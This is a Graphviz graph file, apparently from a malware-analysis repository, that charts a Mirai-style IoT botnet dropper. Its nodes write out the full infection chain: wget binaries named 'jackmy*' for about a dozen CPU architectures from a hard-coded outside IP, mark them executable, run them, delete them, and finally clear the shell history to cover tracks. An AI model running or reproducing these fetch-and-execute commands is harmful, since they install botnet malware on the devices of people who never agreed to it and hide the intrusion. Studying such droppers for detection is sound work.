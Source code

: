 digraph {
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 10 [label="||,"];
10 [label="wget http://208.67.1.253/jackmymips "];
10 -> 12 [label=";,"];
12 [label="chmod +x jackmymips "];
12 -> 14 [label=";,"];
14 [label="./jackmymips "];
14 -> 16 [label=";,"];
16 [label="rm -rf jackmymips "];
16 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 28 [label="||,"];
28 [label="wget http://208.67.1.253/jackmymipsel "];
28 -> 30 [label=";,"];
30 [label="chmod +x jackmymipsel "];
30 -> 32 [label=";,"];
32 [label="./jackmymipsel "];
32 -> 34 [label=";,"];
34 [label="rm -rf jackmymipsel "];
34 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 46 [label="||,"];
46 [label="wget http://208.67.1.253/jackmysh4 "];
46 -> 48 [label=";,"];
48 [label="chmod +x jackmysh4 "];
48 -> 50 [label=";,"];
50 [label="./jackmysh4 "];
50 -> 52 [label=";,"];
52 [label="rm -rf jackmysh4 "];
52 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 64 [label="||,"];
64 [label="wget http://208.67.1.253/jackmyx86 "];
64 -> 66 [label=";,"];
66 [label="chmod +x jackmyx86 "];
66 -> 68 [label=";,"];
68 [label="./jackmyx86 "];
68 -> 70 [label=";,"];
70 [label="rm -rf jackmyx86 "];
70 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 82 [label="||,"];
82 [label="wget http://208.67.1.253/jackmyi586 "];
82 -> 84 [label=";,"];
84 [label="chmod +x jackmyi586 "];
84 -> 86 [label=";,"];
86 [label="./jackmyi586 "];
86 -> 88 [label=";,"];
88 [label="rm -rf jackmyi586 "];
88 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 100 [label="||,"];
100 [label="wget http://208.67.1.253/jackmypowerpc "];
100 -> 102 [label=";,"];
102 [label="chmod +x jackmypowerpc "];
102 -> 104 [label=";,"];
104 [label="./jackmypowerpc "];
104 -> 106 [label=";,"];
106 [label="rm -rf jackmypowerpc "];
106 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 118 [label="||,"];
118 [label="wget http://208.67.1.253/jackmypowerpc440fp "];
118 -> 120 [label=";,"];
120 [label="chmod +x jackmypowerpc440fp "];
120 -> 122 [label=";,"];
122 [label="./jackmypowerpc440fp "];
122 -> 124 [label=";,"];
124 [label="rm -rf jackmypowerpc440fp "];
124 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 136 [label="||,"];
136 [label="wget http://208.67.1.253/jackmym86k "];
136 -> 138 [label=";,"];
138 [label="chmod +x jackmym86k "];
138 -> 140 [label=";,"];
140 [label="./jackmym86k "];
140 -> 142 [label=";,"];
142 [label="rm -rf jackmym86k "];
142 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 154 [label="||,"];
154 [label="wget http://208.67.1.253/jackmysparc "];
154 -> 156 [label=";,"];
156 [label="chmod +x jackmysparc "];
156 -> 158 [label=";,"];
158 [label="./jackmysparc "];
158 -> 160 [label=";,"];
160 [label="rm -rf jackmysparc "];
160 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 172 [label="||,"];
172 [label="wget http://208.67.1.253/jackmyarmv4 "];
172 -> 174 [label=";,"];
174 [label="chmod +x jackmyarmv4 "];
174 -> 176 [label=";,"];
176 [label="./jackmyarmv4 "];
176 -> 178 [label=";,"];
178 [label="rm -rf jackmyarmv4 "];
178 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 190 [label="||,"];
190 [label="wget http://208.67.1.253/jackmyarmv5 "];
190 -> 192 [label=";,"];
192 [label="chmod +x jackmyarmv5 "];
192 -> 194 [label=";,"];
194 [label="./jackmyarmv5 "];
194 -> 196 [label=";,"];
196 [label="rm -rf jackmyarmv5 "];
196 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/system "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 208 [label="||,"];
208 [label="busybox wget http://208.67.1.253/jackmymips "];
208 -> 210 [label=";,"];
210 [label="chmod +x jackymips "];
210 -> 212 [label=";,"];
212 [label="./jacmymips "];
212 -> 214 [label=";,"];
214 [label="rm -rf jackymymips "];
214 -> 216 [label=";,"];
216 [label="history -c "];
216 -> 216
}
